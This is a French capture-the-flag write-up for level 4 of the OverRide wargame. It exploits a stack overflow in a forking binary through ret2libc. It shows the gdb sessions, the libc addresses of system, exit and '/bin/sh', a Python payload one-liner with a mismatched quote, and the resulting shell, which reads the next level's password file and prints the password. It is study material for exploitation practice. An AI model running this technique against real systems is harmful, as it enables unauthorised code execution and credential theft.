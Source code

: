 ## LEVEL 04

Au lancement du programme on nous demande un shellcode. Quoi que l'on entre le programme exit.

On lance alors le binaire avec gdb pour voir si l'entrée segfault. En entrant une string dépassant le buffer le programme boucle à l'infini.

On remarque dans cutter que le programme lance un fork, si le fork est égal à 0 programme va alors se mettre dans une boucle infini. C'est l'information que dont nous avions besoin.

Un indice nous est donné lorsque le programme exit.

    level04@OverRide:~$ ./level04
    Give me some shellcode, k
    
    child is exiting...


Grâce à gdb on peut alors follow le process du child et ainsi éviter la boucle infinie pour avoir l'offset du buffer.

    (gdb) set follow-fork-mode child
    (gdb) r
    Starting program: /home/users/level04/level04
    [New process 1716]
    Give me some shellcode, k
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
    
    Program received signal SIGSEGV, Segmentation fault.
    [Switching to process 1716]
    0x41326641 in ?? ()

0x41326641 ce qui nous donne un offset de 156.

On va alors procéder comme dans le level01.

On trouve l'adresse du system, l'adresse de l'exit et l'adresse de /bin/sh pour créer notre payload.

    (gdb) info function system
    All functions matching regular expression "system":
    
    Non-debugging symbols:
    0xf7e6aed0  __libc_system
    ...
    
    (gdb) info function exit
    All functions matching regular expression "exit":
    
    Non-debugging symbols:
    0xf7e5eb70  exit
    ...

Maintenant l'adresse du /bin/sh.

    (gdb) info proc map
    No current process: you must name one.
    (gdb) r
    Starting program: /home/users/level04/level04
    
    Program received signal SIGSEGV, Segmentation fault.
    0x080486f6 in main ()
    (gdb) Give me some shellcode, k
    info pinfo proc map
    process 1730
    Mapped address spaces:
    
            Start Addr   End Addr       Size     Offset objfile
             0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
             0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
             0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
            0xf7e2b000 0xf7e2c000     0x1000        0x0
            0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
            0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
            0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
            0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
            0xf7fd0000 0xf7fd4000     0x4000        0x0
            0xf7fda000 0xf7fdb000     0x1000        0x0
            0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
            0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
            0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
            0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
            0xfffdd000 0xffffe000    0x21000        0x0 [stack]
            
    (gdb) find 0xf7e2b000, 0xf7fcc000, "/bin/sh"
    0xf7f897ec
    1 pattern found.
Bien, on a nos 3 adresses :

    System	0xf7e6aed0   
    Exit	0xf7e5eb70  
    Bin/sh	0xf7f897ec

On créé alors notre payload :

_Overflow + System + Exit + /bin/sh_

```
$ python -c "print 'A' * 156+ '\xd0\xae\xe6\xf7 + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" > /tmp/payload
```

    level04@OverRide:~$ cat /tmp/payload - | ./level04
    Give me some shellcode, k
    whoami
    level05
    cat /home/users/level05/.pass
    3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN




